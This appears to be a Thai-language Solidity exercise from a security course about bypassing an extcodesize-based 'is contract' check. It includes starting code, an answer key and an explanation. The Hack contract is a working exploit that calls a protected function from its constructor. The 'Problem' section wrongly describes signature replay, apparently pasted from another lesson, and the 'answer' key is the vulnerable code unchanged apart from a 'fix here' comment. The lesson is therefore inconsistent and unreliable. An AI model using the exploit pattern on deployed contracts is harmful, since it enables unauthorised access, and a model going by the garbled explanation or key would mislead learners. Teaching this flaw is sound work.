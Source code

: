 ```yaml
---
title: "Bypass Contract Size Check"
actions: ['checkAnswer', 'hints']
material: 
  editor:
    language: sol
    startingCode: |
    pragma solidity ^0.8.0;

    contract Target {
        function isContract(address account) public view returns (bool) {
            // This method relies on extcodesize, which returns 0 for contracts in
            // construction, since the code is only stored at the end of the
            // constructor execution.
            uint256 size;
            assembly {
                size := extcodesize(account)
            }
            return size > 0;
        }

        bool public pwned = false;

        function protected() external {
            require(!isContract(msg.sender), "no contract allowed");
            pwned = true;
        }
    }

    contract FailedAttack {
        // Attempting to call Target.protected will fail,
        // Target block calls from contract
        function pwn(address _target) external {
            // This will fail
            Target(_target).protected();
        }
    }

    contract Hack {
        bool public isContract;
        address public addr;

        // When contract is being created, code size (extcodesize) is 0.
        // This will bypass the isContract() check
        constructor(address _target) {
            isContract = Target(_target).isContract(address(this));
            addr = address(this);
            // This will work
            Target(_target).protected();
        }
    }
    answer: > 
    pragma solidity ^0.8.0;

    contract Target {
        function isContract(address account) public view returns (bool) {
            // This method relies on extcodesize, which returns 0 for contracts in
            // construction, since the code is only stored at the end of the
            // constructor execution.
            uint256 size;
            assembly {
                size := extcodesize(account)
            }
            return size > 0;
        }

        bool public pwned = false;

        function protected() external {
            //แก้ไขที่นี่
            require(!isContract(msg.sender), "no contract allowed");
            pwned = true;
        }
    }

    contract FailedAttack {
        // Attempting to call Target.protected will fail,
        // Target block calls from contract
        function pwn(address _target) external {
            // This will fail
            Target(_target).protected();
        }
    }

    contract Hack {
        bool public isContract;
        address public addr;

        // When contract is being created, code size (extcodesize) is 0.
        // This will bypass the isContract() check
        constructor(address _target) {
            isContract = Target(_target).isContract(address(this));
            addr = address(this);
            // This will work
            Target(_target).protected();
        }
    }
---
```


# Bypass Contract Size Check

Bypass Contract Size Check เกิดจาการตรวจสอบว่า msg.sender เป็นสัญญาหรือไม่โดยใช้ extcodesize ซึ่งมีโอกาสล้มเหลว เนื่องจากระหว่างการสร้างสัญญา extcodesize จะส่งกลับค่า 0 การโจมตีนี้ใช้ประโยชน์จากข้อเท็จจริงดังกล่าวเพื่อหลีกเลี่ยงการตรวจสอบและเข้าถึงฟังก์ชันที่ป้องกันไว้

## ตำแหน่งในโค้ด

`extcodesize(account)` เป็นคำสั่งในภาษา Solidity Assembly ที่ใช้เพื่อดึงขนาดของโค้ดที่อยู่ใน address ที่ระบุ โดยจะส่งกลับขนาดของโค้ดที่ติดตั้งในบัญชีนั้น ๆ

1. สำหรับบัญชีที่เป็น Externally Owned Account (EOA) (บัญชีที่ไม่ใช่สัญญา) extcodesize จะส่งกลับค่าเป็น 0
2. สำหรับสัญญา (contract account) extcodesize จะส่งกลับขนาดของโค้ดที่เก็บไว้ในสัญญา
3. ระหว่างการสร้างสัญญา (ภายใน constructor ของสัญญา) extcodesize จะส่งกลับค่า 0 แม้ว่าจะเป็นสัญญาในขณะนี้ เพราะโค้ดของสัญญายังไม่ได้ถูกบันทึกจนกว่าการดำเนินการของ constructor จะเสร็จสิ้น

ตัวอย่างตำแหน่งในโค้ดที่มีช่องโหว่:

``` Solidity
assembly {
    size := extcodesize(account)
}
```

## ปัญหา

หาก signature ถูกใช้ซ้ำ ผู้โจมตีสามารถสร้างธุรกรรมที่เหมือนเดิมซ้ำ ๆ เพื่อโอน Ether ออกไปหลายครั้ง

## แนวทางการป้องกัน

การตรวจสอบโดยใช้ `(tx.origin == msg.sender)` สามารถใช้ป้องกันการเรียกใช้งานจากสัญญาอื่นได้

## ทดสอบ

แก้ไข require ที่ฟังก์ชั่น protected จาก `!isContract(msg.sender)` เป็น `msg.sender == tx.origin`
